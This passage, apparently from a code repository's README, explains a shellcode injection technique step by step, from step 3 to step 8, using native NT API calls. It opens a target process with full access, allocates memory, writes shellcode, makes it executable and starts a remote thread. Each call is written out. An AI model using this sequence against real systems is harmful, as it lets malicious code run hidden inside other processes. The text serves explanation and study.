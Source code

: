 - - -

### 3\. Opening a Target Process

STATUS = NtOpenProcess(&hProcess, PROCESS\_ALL\_ACCESS, &OA, &CID);

*   Opens a handle to the target process (`hProcess`) with full access (`PROCESS_ALL_ACCESS`).
*   The `OA` (Object Attributes) and `CID` (Client ID) parameters specify the target process.

- - -

### 4\. Allocating Memory in the Target Process

STATUS = NtAllocateVirtualMemory(hProcess, &rbuffer, 0, &shell\_size, MEM\_COMMIT | MEM\_RESERVE, PAGE\_READWRITE);

*   Allocates a memory region (`rbuffer`) in the target process with `PAGE_READWRITE` permissions.
*   `MEM_COMMIT | MEM_RESERVE` ensures that the memory is committed and reserved.
*   The size of the allocated memory is defined by `shell_size`.

- - -

### 5\. Writing Shellcode into the Allocated Memory

STATUS = NtWriteVirtualMemory(hProcess, rbuffer, shell, shell\_size, &BytesWritten);

*   **What it does:**
*   Writes the shellcode (`shell`) into the allocated memory region (`rbuffer`).
*   The amount of data written is stored in `BytesWritten`.

- - -

### 6\. Changing Memory Protection

STATUS = NtProtectVirtualMemory(hProcess, &rbuffer, &shell\_size, PAGE\_EXECUTE\_READ, &oldProtection);

*   **What it does:**
*   Changes the memory protection of the allocated region to `PAGE_EXECUTE_READ`, making the shellcode executable.
*   `oldProtection` stores the previous protection state for cleanup.

- - -

### 7\. Creating a Remote Thread

STATUS = NtCreateThreadEx(&hThread, THREAD\_ALL\_ACCESS, &OA, hProcess, rbuffer, NULL, FALSE, 0, 0, 0, NULL);

*   Creates a remote thread in the target process (`hProcess`), starting execution at the shellcode address (`rbuffer`).

- - -

### 8\. Waiting for the Thread to Finish

STATUS = NtWaitForSingleObject(hThread, FALSE, NULL);
